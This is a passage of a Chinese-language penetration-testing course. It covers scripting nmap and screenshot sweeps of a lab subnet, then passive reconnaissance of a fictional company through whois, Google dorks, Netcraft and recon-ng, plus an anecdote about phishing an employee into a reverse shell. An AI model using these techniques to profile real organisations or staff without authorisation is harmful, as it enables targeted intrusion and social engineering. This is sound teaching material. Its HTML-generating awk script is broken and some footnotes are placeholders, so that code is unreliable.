| http-server-header: Apache/2.0.52 (CentOS)

| http-title: Site doesn't have a title (text/html; charset=UTF-8).

MAC Address: 00:50:56:89:20:34 (VMware)

Warning: OSScan results may be unreliable because we could not find at least 1 open port on the target host.

Device type: general purpose

Running (JUST GUESSING): Linux 2.6.X (92%), ZoneAlarm embedded (90%), Cisco embedded

Aggressive OS guesses: Linux 2.6.18 (92%), Linux 2.6.9 (92%), Linux 2.6.9 - 2.6.27 (90%)

No exact OS matches for host (test conditions non-ideal).  Network Distance: 1 hop

TRACEROUTE

HOP RTT      ADDRESS

1   30.19 ms 10.11.1.8

Nmap scan report for 10.11.1.10

Host is up (0.030s latency).

PORT   STATE SERVICE VERSION

80/tcp open   http    Microsoft IIS httpd 6.0

| http-methods: |_  Potentially risky methods: TRACE |_http-server-header: Microsoft-IIS/6.0 |_http-title: Under Construction

MAC Address: 00:50:56:89:06:D0 (VMware)

Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port on the target host.

Device type: general purpose

Running (MOST GUESSING): Microsoft Windows 2003/XP 2000 (89%), Apple embedded (86%)

OS CPE: cpe:/o:microsoft:windows_server_2003::sp2 cpe:/o:microsoft:windows_xp::sp3 cpe

No exact OS matches for host (test conditions non-ideal).  Network Distance: 1 hop

Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE

HOP RTT      ADDRESS

1   30.41 ms 10.11.1.10

...
```

### 列表 185 - 扫描整个 C 类子网以查找 Web 服务器

这是一个相当直接的扫描，其中 `-A` 表示积极扫描，`-p` 用于指定端口或端口范围，`--open` 用于仅返回具有开放端口的机器，而 `-oG` 用于以可 grep 格式保存扫描结果。同样，如果 `nmap` 对你来说是新的，不要担心。我们稍后会详细介绍，但 `nmap` 确实提供了相当可观的输出供我们处理。

让我们使用 `cat` 查看输出文件，以熟悉其格式：

```
kali@kali:~/temp$ cat nmap-scan_10.11.1.1-254

# Nmap 7.60 scan initiated Sun Mar 18 18:57:48 2019 as: nmap -A -p80 --open -oG nmap-scan_10.11.1.1-254 10.11.1.0/24

Host: 10.11.1.0 () Status: Up

Host: 10.11.1.8 () Ports: 80/open/tcp//http//Apache httpd 2.0.52 (CentOS)/ Seq Index: 197 1P 1D Seq: All zeros

Host: 10.11.1.10 () Status: Up

Host: 10.11.1.10 () Ports: 80/open/tcp//http//Microsoft IIS httpd 6.0/ Seq Index: 256 1P 1D Seq: Incremental

Host: 10.11.1.13 () Status: Up

Host: 10.11.1.13 () Ports: 80/open/tcp//http//Microsoft IIS httpd 5.1/ Seq Index: 136 1P 1D Seq: Incremental

...
```

### 列表 186 - 熟悉我们 nmap 扫描生成的结果文件

有趣的是，看起来每个 IP 地址都被重复了两次：第一行显示机器状态，第二行显示正在扫描的端口号。由于我们只对唯一的 IP 地址感兴趣，因此需要进行一些清理。让我们使用 `grep` 来筛选包含端口 80 的行。

```
kali@kali:~/temp$ cat nmap-scan_10.11.1.1-254 | grep 80

# Nmap 7.60 scan initiated Sun Mar 18 18:57:48 2019 as: nmap -A -p80 --open -oG nmap-scan_10.11.1.1-254 10.11.1.0/24

Host: 10.11.1.8 () Ports: 80/open/tcp//http//Apache httpd 2.0.52 ((CentOS))/ Seq Index: 197 IP ID Seq: All zeros

Host: 10.11.1.10 () Ports: 80/open/tcp//http//Microsoft IIS httpd 6.0/ Seq Index: 256 IP ID Seq: Incremental
```


Host: 10.11.1.13 () Ports: 80/open/tcp//http//Microsoft IIS httpd 5.1/ Seq Index: 136 IP ID Seq: Incremental

...

### *清单 187 - 使用 grep 命令在文件中搜索端口 80*

这是一个很好的开始，但请注意第一行是无关信息。为了排除它，我们将再次使用 `grep`，并加上 `-v` 选项。这是一个“反向 grep”，只显示不包含搜索字符串的行。在这种情况下，我们不希望保留任何包含大小写敏感关键字 "Nmap" 的行。

```text
kali@kali:~/temp$ cat nmap-scan_10.11.1.1-254 | grep 80 | grep -v "Nmap"
Host: 10.11.1.8 () Ports: 80/open/tcp//http//Apache httpd 2.0.52 ((CentOS))/ Seq Index: 197 IP ID Seq: All zeros
Host: 10.11.1.10 () Ports: 80/open/tcp//http//Microsoft IIS httpd 6.0/ Seq Index: 256 IP ID Seq: Incremental
Host: 10.11.1.13 () Ports: 80/open/tcp//http//Microsoft IIS httpd 5.1/ Seq Index: 136 IP ID Seq: Incremental
...
```

### *清单 188 - 排除所有匹配 Nmap 关键字的行*

输出结果看起来好多了。让我们尝试仅提取 IP 地址，因为这确实是我们感兴趣的内容。为此，我们将使用 `awk` 打印第二个字段，并以 `空格` 作为分隔符。

```text
kali@kali:~/temp$ cat nmap-scan_10.11.1.1-254 | grep 80 | grep -v "Nmap" | awk '{print $2}'
10.11.1.8
10.11.1.10
10.11.1.13
10.11.1.22
10.11.1.24
10.11.1.31
10.11.1.39
10.11.1.49
10.11.1.50
10.11.1.71
...
```

### *清单 189 - 使用 awk 命令打印 IP 地址列表*

好的。这看起来像是一个干净的 IP 地址列表。下一步，我们将使用一个 Bash 单行命令来循环遍历上述 IP 列表，并运行 `cutycapt`，[135] 这是一种基于 Qt WebKit 的网页渲染捕获工具。我们将使用 `url` 参数指定目标网站，并使用 `out` 参数指定输出文件的名称：

```bash
kali@kali:~/temp$ for ip in $(cat nmap-scan_10.11.1.1-254 | grep 80 | grep -v "Nmap" | awk '{print $2}'); do cutycapt --url=$ip --out=$ip.png;done
```

### *清单 190 - 使用 cutycapt 捕获所有 Web 服务器的截图*

一旦循环结束并返回提示符，我们就可以使用带有 `-1` 选项的 `ls` 命令来检查由我们的 Bash 单行命令创建的一系列输出文件。该选项将每个文件列为一行，并抑制额外的详细信息：

```bash
kali@kali:~/temp$ ls -1 *.png
10.11.1.10.png
10.11.1.115.png
10.11.1.116.png
10.11.1.128.png
10.11.1.13.png
10.11.1.133.png
10.11.1.14.png
10.11.1.202.png
10.11.1.209.png
10.11.1.217.png
...
```

### *清单 191 - 探索我们的 Bash 单行命令的结果*

太棒了。我们离目标更近了一步。我们可以单独查看这些文件，但更具吸引力的选择是再次利用我们的脚本编写知识，看看还有什么其他可以自动化的。这需要不仅具备 Bash 脚本编写技能，还具备基本的 HTML 知识：

```bash
kali@kali:~/temp$ cat ./pngtohtml.sh
#!/bin/bash
# 通过 HTML 查看扫描结果的 Bash 脚本。
echo "<HTML><BODY><BR>" > web.html
ls -1 *.png | awk -F : '{ print $1":"<BR><BR>"}' >> web.html
echo "</BODY></HTML>" >> web.html
kali@kali:~/temp$ chmod +x ./pngtohtml.sh
kali@kali:~/temp$ ./pngtohtml.sh
kali@kali:~/temp$ firefox web.html
```


*清单 192 - 创建一个页面以查看所有扫描结果中的图像*

该脚本构建了一个 HTML 文件（`web.html`），从最基本的标签开始。然后，`ls` 和 `awk` 语句将每个 `.PNG` 文件名插入到 HTML `IMG` 标签中，并将其追加到我们的 `web.html` 文件中。最后，我们将 HTML 结束标签追加到文件中，使脚本可执行，并在浏览器中查看它。结果很简单但有效，让我们能够查看每个 Web 服务器的主页：



*图 18：预览扫描结果*

希望这些简短的实用示例能让您对 Bash 脚本所能提供的一些可能性有一个概念。当您试图在评估期间快速自动化大量任务时，有效地使用 Bash 将是必不可少的。

## 5.7.3.1 练习

- 1. 研究 Bash 循环，并编写一个简短的脚本来对您的目标 IP 范围 `10.11.1.0/24` 执行 ping 扫描。
- 2. 尝试使用更高级的脚本语言（如 Python、Perl 或 Ruby）完成上述练习。
- 3. 使用本模块中的实用示例来帮助您创建一个 Bash 脚本，从 `access_log.txt` 文件中提取 JavaScript 文件 (`http://www.offensive-security.com/pwk-files/access_log.txt.gz`)。确保文件名不包含路径，是唯一的，并且是排序好的。
- 4. 使用另一种语言（如 Python、Perl 或 Ruby）重写上一个练习。

## 5.8 总结

GNU 再生的 Bourne 外壳（Bash）[135] 是一个功能强大的工作环境和脚本引擎。胜任的安全专业人员熟练地利用 Bash 脚本来简化和自动化许多 Linux 任务和程序。在本模块中，我们介绍了 Bash 脚本编写并探索了几个实际场景。

[135] (GNU, 2017), http://www.gnu.org/software/bash/


## 6. 被动信息收集

被动信息收集（也称为开源情报或 OSINT[136]）是收集关于目标的可公开获取信息的过程，通常不与目标进行任何直接交互。

我们可以使用多种资源和工具来收集这些信息，该过程是循环的而非线性的。换句话说，任何阶段的“下一步”取决于我们在前几步中发现的内容，从而创建过程的“循环”。由于每个工具或资源可以生成任意数量的多样化结果，因此很难定义标准化的过程。被动信息收集的最终目标是获取能够澄清或扩展攻击面[137]、帮助我们进行成功的钓鱼活动或补充其他渗透测试步骤（如密码猜测）的信息。

由于该过程的循环性质，本模块的展开方式将与之前的模块不同。我们不会呈现相互关联的场景，而是简单地展示各种资源和工具，解释它们的工作原理，并为您提供构建被动信息收集行动所需的基本技术。

在我们开始之前，我们需要定义被动信息收集。关于在此背景下什么是“被动”的，有两种不同的观点。

在最严格的解释中，我们从不与目标直接通信。例如，我们可以依靠第三方获取信息，但我们不会访问目标的任何系统或服务器。

使用这种方法可以保持关于我们行动和意图的高保密性，但也可能很繁琐，并可能限制我们的结果。

在较宽松的解释中，我们可能会与目标交互，但仅作为普通 Internet 用户那样。例如，如果目标的网站允许我们注册账户，我们可以这样做。然而，在此阶段，我们不会测试网站是否存在漏洞。

在本模块中，我们将采用这种后者、较少僵化的解释作为我们的方法。

这两种方法都不一定是“正确”的。在决定使用哪种方法之前，我们需要考虑渗透测试的范围和交战规则。此外，请记住，此阶段并不总是必要的，并且即使此阶段有所收获（例如成功的定向钓鱼活动），其他阶段可能需要同等或更多的关注。

在我们开始讨论资源和工具之前，让我们分享一个涉及被动信息收集行动成功元素的渗透测试的个人示例。

## 作者附注

几年前，我们 Offensive Security 受命为一家小公司执行渗透测试。这家公司几乎没有任何 Internet 存在感，对外暴露的服务也非常少，事实证明所有这些服务都是安全的。基本上可以说没有攻击面。在

[136] (Wikipedia, 2019) https://en.wikipedia.org/wiki/Open-source_intelligence
[137] (Wikipedia, 2019) https://en.wikipedia.org/wiki/Attack_surface

通过一项专注的被动信息收集行动，利用各种谷歌搜索操作符，将零散的信息“连接”并“导入”到其他在线工具中，再加上一点创造力和逻辑思维，我们找到了目标公司的一名员工在一个集邮论坛上发表的一个帖子：

```
你好！

我在寻找1950年代的稀有邮票——出售或交换。

请通过 david@company-address.com 联系我

手机：999-999-9999
```


列表 193 - 一个论坛帖子

我们利用这些信息发起了一次半复杂的客户端攻击。我们迅速注册了一个与邮票相关的域名，并设计了一个显示各种1950年代稀有邮票的落地页面（这些图片是我们使用谷歌图片搜索找到的）。该域名和网站的设计无疑提高了我们邮票交易网站的可信度。

接下来，我们在该网站的网页中嵌入了一些恶意的客户端攻击利用代码，并在工作时间给“David”打了电话。在通话中，我们伪装成一位继承了他祖父庞大邮票收藏的邮票收藏家。

David 收到我们的电话时欣喜若狂，毫不犹豫地去访问了那个恶意网站，以查看“邮票收藏”。在浏览该网站时，利用代码在他的本地机器上执行，并向我们发送了一个反向 shell。

这是一个很好的例子，说明一些看似无害的被动收集信息（例如员工使用公司电子邮件处理个人事务）在渗透测试中如何成为突破口。有时候，最细微的细节可能最为关键。

> 虽然“David”没有遵循最佳实践，但公司的政策和安全意识计划的缺失为这次数据泄露埋下了伏笔。因此，我们在书面报告中避免指责个人。作为渗透测试人员，我们的目标是提高客户资源的安全性，而不是针对单个员工。仅仅移除“David”并不能解决问题。

让我们来看看一些最流行的工具和技术，它们可以帮助我们要成功实施信息收集行动。我们将以 MegaCorp One¹³⁸ 作为行动对象，这是一家由 Offensive Security 创建的虚构公司。

### 6.1 做笔记

信息收集行动可能会产生大量数据，因此妥善管理这些数据至关重要，以便我们能在后续搜索中利用它们，或在后续阶段中使用。记笔记没有绝对的对错之分。不过，如果我们保持详细且格式良好的笔记，可能更容易在日后检索信息。

¹³⁸ (Offensive Security, 2019). https://www.megacorpone.com/

### 6.2 网站侦察

如果客户拥有网站，我们只需浏览该网站即可收集基本信息。小型组织可能只有一个网站，而大型组织可能拥有许多网站，包括一些未维护的网站。让我们查看 MegaCorp One 的网站（[https://www.megacorpone.com/](https://www.megacorpone.com/)）以了解有关目标的更多信息。


图 19: MegaCorp One

快速浏览他们的网站可以发现，这是一家纳米科技公司。

位于 `https://www.megacorpone.com/about.html` 的“关于”页面揭示了部分员工的电子邮件地址和 Twitter 账户：



图 20: About Us - MegaCorp One

我们可以在社交媒体信息收集行动中使用这些地址。我们将在后面的章节中更详细地讨论这一点。

值得一提的是，该公司的电子邮件地址格式遵循“名字首字母 + 姓氏”的模式。然而，他们的 CEO 的电子邮件地址仅使用他的名字。这表明创始人或资深员工与新雇员的电子邮件格式不同。这些信息在评估的后期阶段可能很有用。

在同一页面上找到的公司社交媒体账号也值得记录，以便进一步研究：



图 21: Social Media - MegaCorp One

让我们更新笔记，以跟踪每条信息，包括电子邮件地址格式和社交媒体网站参考。

### 6.3 Whois 枚举

`Whois`¹³⁹ 是一种 TCP 服务、工具和一种数据库，可以提供关于域名的信息，例如*名称服务器*¹⁴⁰和*注册商*¹⁴¹。由于注册商对隐私注册收取费用，这些信息通常是公开的。

我们可以通过执行标准的正向搜索来收集关于域名基本信息，将域名 `megacorpone.com` 传递给 `whois` 客户端：

```bash
kali@kali:~$ whois megacorpone.com

Domain Name: MEGACORPONE.COM

Registry Domain ID: 1775445745_DOMAIN.COM-VRSN

Registrar WHOIS Server: whois.gandi.net

Registrar URL: http://www.gandi.net

Updated Date: 2019-01-01T09:45:03Z

Creation Date: 2013-01-22T23:01:00Z

Registry Expiry Date: 2023-01-22T23:01:00Z

Registry Registrant ID:

Registrant Name: Alan Grofield

Registrant Organization: MegaCorpOne

Registrant Street: 2 Old Mill St

Registrant City: Rachel

Registrant State/Province: Nevada

Registrant Postal Code: 89001

Registrant Country: US

Registrant Phone: +1.9038836342

Registry Admin ID:

Admin Name: Alan Grofield

Admin Organization: MegaCorpOne

Admin Street: 2 Old Mill St

Admin City: Rachel

Admin State/Province: Nevada

Admin Postal Code: 89001

Admin Country: US

Admin Phone: +1.9038836342

Registry Tech ID:

Tech Name: Alan Grofield

Tech Organization: MegaCorpOne

Tech Street: 2 Old Mill St

Tech City: Rachel

Tech State/Province: Nevada

Tech Postal Code: 89001

Tech Country: US

Tech Phone: +1.9038836342

Name Server: NS1.MEGACORPONE.COM

Name Server: NS2.MEGACORPONE.COM

Name Server: NS3.MEGACORPONE.COM
```

列表 194 - 对 megacorpone.com 使用 whois

并非所有这些都有用，但我们确实发现了一些有价值的信息。首先，输出结果显示 Alan Grofield 注册了该域名。根据 MegaCorp One 的联系页面，Alan 是“IT 和安全总监”。

我们还找到了 MegaCorp One 的名称服务器。名称服务器是 DNS 的一个组成部分，这里不做详细探讨，但我们应该将这些服务器添加到我们的笔记中。

除了这种收集 DNS 名称信息的标准正向查找外，`whois` 客户端还可以执行反向查找。假设我们有一个 IP 地址，我们可以执行反向查找以获取更多关于它的信息：

```bash
kali@kali:~$ whois 38.100.193.70

NetRange:   38.0.0.0 - 38.255.255.255

CIDR:       38.0.0.0/8

NetName:    COGENT-A

OrgName: PSINet, Inc.

OrgID: PST

Address: 2450 N Street NW

City: Washington

StateProv: DC

PostalCode: 20037

Country: US

RegDate:

Updated: 2015-06-04


列表 195 - Whois 反向查找

反向查找的结果提供了关于谁托管该 IP 地址的信息。这些信息稍后可能有用，与收集到的所有信息一样，我们将把它添加到笔记中。

### 6.3.1.1 练习

- 使用 Kali 中的 `whois` 工具确定 MegaCorp One 的名称服务器。

## 6.4 谷歌黑客技术

“谷歌黑客技术”（Google Hacking）一词由 Johnny Long 在 2001 年普及。通过几次演讲¹⁴²和一本非常流行的书（*《谷歌黑客技术用于渗透测试者》*¹⁴³），他概述了如何利用谷歌等搜索引擎来发现关键信息、漏洞和配置不当的网站。

这项技术的核心是巧妙的搜索字符串和*操作符*¹⁴⁴，它们允许对搜索查询进行创造性细化，其中大部分适用于各种搜索引擎。这个过程是迭代的，从宽泛的搜索开始，通过操作符缩小范围，以筛选出不相关或不感兴趣的结果。

让我们尝试其中一些操作符，感受一下它们是如何工作的。

`site` 操作符将搜索限制在单个域名。我们可以使用此操作符来获得组织网络存在的粗略概念：

¹³⁹ (Wikipedia, 2019) https://en.wikipedia.org/wiki/WHOIS
¹⁴⁰ (Wikipedia, 2019) https://en.wikipedia.org/wiki/Name_server
¹⁴¹ (Wikipedia, 2019) https://en.wikipedia.org/wiki/Domain_name_registrar
¹⁴² 对 Johnny Long 演讲的引用。
¹⁴³ 对《谷歌黑客技术用于渗透测试者》的引用。
¹⁴⁴ 对搜索操作符的引用。


然后我们可以使用进一步的操作符来缩小这些结果。例如，`filetype`（或 `ext`）操作符将搜索结果限制为指定的文件类型。

在本例中，我们将操作符组合起来，以定位 `www.megacorpone.com` 上的 PHP 文件（`filetype:php`）（`site:megacorpone.com`）：



图 23. 使用 Filetype 操作符进行搜索

我们只得到一个结果，但它是一个有趣的结果。我们的查询发现了一个 AlienVault OSSIM 实例的登录页面，[145] 这是一个安全信息和事件管理（SIEM）平台。安全团队使用 SIEM 工具来监控应用程序和网络流量中的恶意活动。通常，这些工具仅在内部网络上可用。我们应该记下这个 URL，因为如果我们在主动利用阶段找到登录的用户凭据，它可能会很有用。

`ext` 操作符也有助于识别网站上可能使用的编程语言。诸如 `ext:jsp`、`ext:cfn`、`ext:pl` 的搜索将分别找到已索引的 Java Server Pages、Coldfusion 和 Perl 页面。

我们还可以使用 `-` 修饰操作符，从搜索中排除特定项目，从而缩小结果。

例如，要查找有趣的非 HTML 页面，我们可以使用 `site:megacorpone.com` 将搜索限制在 `megacorpone.com` 及其子域名，然后使用 `-filetype:html` 从结果中排除 HTML 页面：

[145] (AT&T, 2019), https://cybersecurity.att.com/products/ossim



在这种情况下，我们发现了一些有趣的页面，包括一个管理控制台。

在另一个例子中，我们可以使用搜索 `intitle:"index of" "parent directory"` 来查找标题中包含 "index of" 且页面上包含 "parent directory" 词汇的页面。



*图 25. 使用 Google 查找目录列表*

该输出指的是*目录列表*[146]页面，这些页面列出了没有索引页的目录中的文件内容。此类错误配置可能会揭示有趣的文件和敏感信息。

这些基本示例只是我们使用搜索操作符所能做的冰山一角。Google 黑客数据库（GHDB）[147] 包含了多种富有创造力的搜索示例，展示了组合操作符进行创造性搜索的强大功能。

[146] (MITRE, 2019). https://cwe.mitre.org/data/definitions/548.html

[147] (Offensive Security, 2019). https://www.exploit-db.com/google-hacking-database



图 26: Google 黑客数据库（GHDB）

掌握这些操作符，并结合敏锐的推理能力，是有效进行搜索引擎“黑客攻击”的关键技能。

## 6.4.1.1 练习

- MegaCorp One 的法律副总裁是谁，他们的电子邮件地址是什么？
- 使用 Google dorks（无论是你自己的还是 GHDB 中的任意一个）搜索 `www.megacorpone.com` 以查找有趣的文档。
- 除了 `www.megacorpone.com` 上列出的员工外，您还能识别出其他哪些 MegaCorp One 员工？

### 6.5 Netcraft

Netcraft[148] 是一家总部位于英国的互联网服务公司，提供了一个免费的 Web 门户，执行各种信息收集功能。使用诸如 Netcraft 提供的这类服务被视为一种被动技术，因为我们从未直接与我们目标交互。

让我们回顾一下 Netcraft 的一些功能。例如，我们可以使用 Netcraft 的 DNS 搜索页面（https://searchdns.netcraft.com）来收集关于 `megacorpone.com` 域名的信息：

[148] (Netcraft, 2019), https://www.netcraft.com/

#### 按域名搜索网络

探索 1,094,728 个由 Netcraft 工具栏用户访问的网站 2019年9月20日

搜索：包含 `*.megacorpone.com` 的网站 [查找!]
示例：包含的网站：netcraft.com

##### `*.megacorpone.com` 的结果

找到 5 个站点

| 站点 | 站点报告 | 首次发现 | 网络 | 操作系统 |
|:-----|:-----------|:-----------|:--------|:---|
| 1. www.megacorpone.com | | 2013 年 3 月 | peinet, inc. | linux - 未知 |
| 2. intranet.megacorpone.com | | | peinet, inc. | 未知 |
| 3. admin.megacorpone.com | | | peinet, inc. | 未知 |
| 4. support.megacorpone.com | | | volico | 未知 |
| 5. vpn.megacorpone.com | | 2016 年 11 月 | peinet, inc. | linux |

版权所有 © NETCRAFT 有限公司 2019。保留所有权利。

*图 27: Netcraft 对 `*.megacorpone.com` 搜索的结果*

对于找到的每个服务器，我们可以通过点击每个站点 URL 旁边的文件图标查看“站点报告”，该报告提供有关该服务器的额外信息和历史记录。



图 28: `www.megacorpone.com` 的 Netcraft 站点报告

报告的开头涉及注册信息。然而，如果我们向下滚动，我们会发现各种“站点技术”条目：



这个子域名和技术列表将在我们进入主动信息收集和利用阶段时证明很有用。目前，我们将它添加到我们的笔记中。

## 6.5.1.1 练习

- 使用 Netcraft 确定 `www.megacorpone.com` 上运行的应用服务器。

### 6.6 Recon-ng

`recon-ng`[149] 是一个基于模块的 Web 信息收集框架。Recon-ng 将模块的结果显示在终端，但它也将其存储在数据库中。Recon-ng 的大部分威力在于将一个模块的结果输入到另一个模块中，使我们能够快速扩大信息收集的范围。

让我们使用 `recon-ng` 来编译关于 MegaCorp One 的有趣数据。为了开始，让我们简单地运行 `recon-ng`。

[149] (Tim Tomes, 2019), https://github.com/lannmster53/recon-ng

```


kali@kali:~$ `recon-ng`

[*] Version check disabled.



由...赞助

[*] No modules enabed/installed.

[recon-ng][default] >

根据输出，我们需要安装各种模块才能使用 `recon-ng`。

我们可以从 `recon-ng` 的“市场”添加模块。[150] 我们将在主提示符上使用 `marketplace search` 搜索市场，并提供一个搜索字符串作为参数。

在本例中，我们将搜索包含术语 `github` 的模块。

```
recon-ng[default] > marketplace search github
[*] Searching module index for 'github'...
```

| 路径 | 版本 | 状态 | D | K |
|:-----|:-------|:-------|:--|:--|
| recon/companies-multi/github_miner | 1.0 | 未安装 | | * |
| recon/profiles-contacts/github_users | 1.0 | 未安装 | | * |
| recon/profiles-profiles/profiler | 1.0 | 未安装 | | * |
| recon/profiles-repositories/github_repos | 1.0 | 未安装 | | * |
| recon/repositories-profiles/github_commits | 1.0 | 未安装 | | * |
| recon/repositories-vulnerabilities/github_dorks | 1.0 | 未安装 | | * |

D = 具有依赖项。详见 `info`。

K = 需要密钥。详见 `info`。

请注意，有些模块在“K”列中标有星号。这些模块需要第三方提供商的凭据或 API 密钥[151]。`recon-ng` 维基[152] 维护了其模块使用密钥的简短列表。这些密钥中的一些对免费账户可用，而其他的则需要订阅。

[150] (Reference 150)
[151] (Reference 151)
[152] (Reference 152)

我们可以通过使用 `marketplace info` 后跟模块名称来了解有关模块的更多信息。由于 GitHub 模块需要 API 密钥，让我们使用此命令来检查 `recon/domains-hosts/google_site_web` 模块：

```
[recon-ng][default] > marketplace info recon/domains-hosts/google_site_web
+-------------------------------------+----------------------------------------------------+
| path | recon/domains-hosts/google_site_web |
| name | Google Hostname Enumerator |
| author | Tim Tomes (@lanmaster53) |
| version | 1.0 |
| last_updated | 2019-06-24 |
| description | Harvests hosts from Google.com by using the 'site' operator. |
| required_keys | [] |
| dependencies | [] |
| files | [] |
| status | not installed |
+-------------------------------------+----------------------------------------------------+
[recon-ng][default] >
```

列表 198 - 获取模块信息

根据其描述，该模块使用 "site" 操作符搜索 Google，并且不需要 API 密钥。让我们使用 `marketplace install` 安装该模块。

```
[recon-ng][default] > marketplace install recon/domains-hosts/google_site_web
[*] Module installed: recon/domains-hosts/google_site_web
[*] Reloading modules...
[recon-ng][default] >
```

列表 199 - 安装模块

安装模块后，我们可以使用 `module load` 后跟其名称来加载它。然后，我们将使用 `info` 显示有关该模块和所需参数的详细信息：

```
